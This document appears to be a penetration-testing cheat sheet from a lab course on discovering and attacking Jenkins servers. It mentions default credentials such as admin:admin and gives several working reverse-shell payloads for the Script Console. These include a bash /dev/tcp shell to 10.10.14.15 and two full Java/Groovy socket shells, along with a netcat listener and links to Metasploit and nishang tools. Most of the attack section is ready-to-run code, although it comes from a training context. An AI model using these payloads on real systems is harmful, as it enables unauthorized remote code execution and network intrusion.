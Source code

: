 # Jenkins - Discovery & Enumeration
## Discovery/Footprinting
It is often installed on Windows servers running as the all-powerful SYSTEM account. If we can gain access via Jenkins and gain remote code execution as the SYSTEM account, we would have a foothold in Active Directory to begin enumeration of the domain environment. Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers. This port is used to communicate between masters and slaves.
## Enumeration
```
http://jenkins.inlanefreight.local:8000/login?from=%2F
```
We may encounter a Jenkins instance that uses weak or default credentials such as admin:admin or does not have any type of authentication enabled. It is not uncommon to find Jenkins instances that do not require any authentication during an internal penetration test

# Attacking Jenkins
## Script Console
### Linux
1. Create a reverse shell
```
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()
```
2. nc -lvnp 8443
3. Metasploit: https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/
### Windows host
1. Add a user and connect to the host via RDP or WinRM
2. Use a PowerShell download cradle with Invoke-PowerShellTcp.ps1: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
3. Run commands on a Windows-based Jenkins install using this snippet
```
def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");
```
4. Use this Java reverse shell to gain command execution on a Windows host, swapping out localhost and the port for our IP address and listener port
```
String host="172.16.139.10"; int port=4443; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Jenkins Script Console Rev Shell - Groovy Reverse Shell
```
String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
